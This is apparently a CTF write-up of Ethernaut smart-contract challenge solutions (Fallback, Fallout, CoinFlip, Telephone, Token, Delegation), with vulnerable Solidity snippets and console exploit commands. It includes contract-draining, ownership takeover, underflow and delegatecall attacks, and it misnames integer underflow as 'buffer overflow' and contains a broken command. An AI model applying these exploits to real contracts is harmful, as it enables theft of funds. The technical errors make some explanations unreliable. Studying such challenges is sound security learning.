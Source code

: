 # Ethernaut Solutions 
by Danny Tzoc 

## Fallback 
What is Fallback?
Fallback is a solidity function that gets called when a function does not exist. It is also used to directly send ether. 
In this specific challenge looking at the contract we see that there is a mapping of the contributions and we see an owner and a fallback function. 
Examining the fallback function we notice that whoever calls the fallback function gets to be the owner but there is a require function. To pass that require function we are going to need to send a value greater than zero and we have to be in the mapping of the it. 
```
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
In order to do that all we need to is call the contribute function inside our web console and contribute after that all we need to is call the fallback function and then withdraw the amount that belong to the owner with the withdraw function inside the contract 
```
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  ```
  To contribute all you need to do is call 
  ```
  contract.contribute({value:1})
  ```
  1 which would be one WEI and to get an idea 1 ether is 10^18 wei
  After that we are part of the mapping then all we need to do is call fallback function in our console just by doing this in web console 
 ```
 contract.sendTransaction{value:1})
```
After you just call the withdraw funnction and see that the contract got drained and you can submit your instance 
```
contract.withdraw()
```
## Fallout 
Fallout was an easy level. In this level the main exploit was in the constructor part. In the constructor there seemed to be a typo. Execpt of writing Fallout they instead had it as Fal1out. Having it like this it allowed an attacker to call the this function. If you would to see the code whoever called this function gets to be owner because of msg.sender

```
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```
In order to solve this level all you need to do is go to the console and just call the function simply by typing 
```
contract.Fal1out()
```
## CoinFlip 
When you a flip a coin you exepect a 50/50 chance of winning. You execpt either tails or heads to popup. The problem with randomness or chance is that Etherum is a deterministic Turning machine. Determinitic is if there is only one possible action at each step. So in etherum a transaction needs to be confirmed by more than one node in the network. This means that every node must come to the same conclusion. 

In the case with coniflip you can easily write an advesary contract that is able to mimic the functionality to guess the outcome of the coinflip 
The malicouse contract would be posted on this github label CoinFlipA.sol

## Telephone 
To pass this level of ethernaut you must claim ownership of the contract. In order to claim ownership of this contract you must first understand the difference between tx.origin and msg.sender. 

tx.origin refers to the orgialn external contract that started the transaction while msg.sender refers to the immediate account. So in this level the main thing you have to focus on is in this if statment 
```
  if (tx.origin != msg.sender) {
      owner = _owner;
    }
```
You will need to write a malicouse contract. that calls chageowner within it. 

The malicouse contract would be inside a file called TelephoneA.sol

Create a malicouse contract that calls the changeowner function within the malciouse contract so it can bypass the if statment 

## Token 
Before Solidity version 0.8.0 solidity was susestibale to buffer overflow and buffer underflow. You could not use + , - , / , or *
If you wanted to use arithmethic functions you have to use Safe Math library that can protect you with buffer overflow and underflow. Right now in the recent solidity you do not have to worry anymore. 

```
 function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

```
The problem stated you start off with 20 tokens so in order to beat this problem you will need to send a value of greater than 21 to cause a buffer overflow 
For example 
20-21 = -1 in normal circumstance but since it and uint it would cause a buffer overflow since negatives do not exist in uint 
so it would be 255 
To solve this just write this on the console and then just submit 
```
await contract.transfer("random_address", 21);

```
## Delegation 
To solve this problem you first have to understand how delegatecall works. Delegatecall is a low level function. In the solidity docs it states 'When contract A executes delegatecall to contract B, B's code is excuted with contract A's storage, msg.sender and msg.value.' In other words Contract A is able to call function that Contrract B has. 

In this contract it looks like Delegation has a fallback function that contains a delegatecall and if you where to look at Delegate Contract it looks like you can call the pwn function so you can switch owner of the account. 

In the challange it also said to look at fallback methods and methods ID 
Fallback methods is what I found in this forum https://ethereum.stackexchange.com/questions/23369/fallback-function-in-web3 
The Method ID. This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature baz(uint32,bool).

To simply solve this problem all you need to do is bacially this two steps 
First create variable that will hold the function hash 
```
var pwn_hash = web3.utils.sha3("pwn()");
```
Then you will use the send transaction function
```
contract.sendTransaction({data:pwn_hash});
```
